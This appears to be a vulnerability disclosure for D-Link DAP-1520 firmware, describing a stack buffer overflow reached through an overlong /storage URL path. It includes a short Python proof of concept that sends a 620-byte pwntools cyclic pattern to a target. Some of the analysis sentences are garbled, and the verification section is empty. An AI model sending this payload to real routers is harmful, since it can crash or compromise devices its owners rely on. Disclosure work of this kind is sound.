




 

## overview

| Firmware Name | Firmware Version         | Firmware Link                                                |
| ------------- | ------------------------ | ------------------------------------------------------------ |
| DAP-1520      | DAP1520A1_FW110b04beta02 | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Analysis

This first checks to see if /storage is included. If it is, a2+260 is copied to the v17 array, which has a size of 1024. There is a buffer overflow vulnerability, and v17 is passed to replace as an argument_special_cher function.



Next, in replace_special_In char function, v17 is copied to v13 variable,



v13 is only 600 in size, which will cause a buffer overflow, and since this buffer overflow will precede the previous one, the previous overflow will not occur.



## POC

```
import requests
from pwn import *
ip = "127.0.0.1"
port = 80
url = f"http://{ip}:{port}/storage/{cyclic(620).decode('utf-8')}?"
print(requests.get(url).text)
```

## Vulnerability Verification

